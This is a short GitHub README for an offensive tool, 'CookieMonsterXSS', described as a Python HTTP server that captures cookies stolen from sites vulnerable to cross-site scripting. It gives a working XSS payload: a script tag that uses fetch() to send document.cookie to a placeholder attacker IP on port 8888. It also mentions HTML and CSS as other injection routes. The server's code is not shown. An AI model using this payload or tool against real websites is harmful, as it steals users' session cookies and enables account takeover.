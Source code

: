 # CookieMonsterXSS

![Cookie Monster Image Src:Null Byte](https://img.wonderhowto.com/img/87/00/63644955231719/0/write-xss-cookie-stealer-javascript-steal-passwords.1280x600.jpg)

cookieMonster.py is a python http server listening to inbound connections. The server can be used to capture cookies from the web application that is vulnerable to Cross Site Scripting (XSS).

Example XSS payload: <br>
```<script>fetch(`http://<ATTACKER_MACHINE_IP>:8888?data=${document.cookie}`)</script>```


Keep in mind, there are many ways to perform code injection; using the <script> element tag is just one of them. You can also perform XSS injections using HTML tags and CSS.



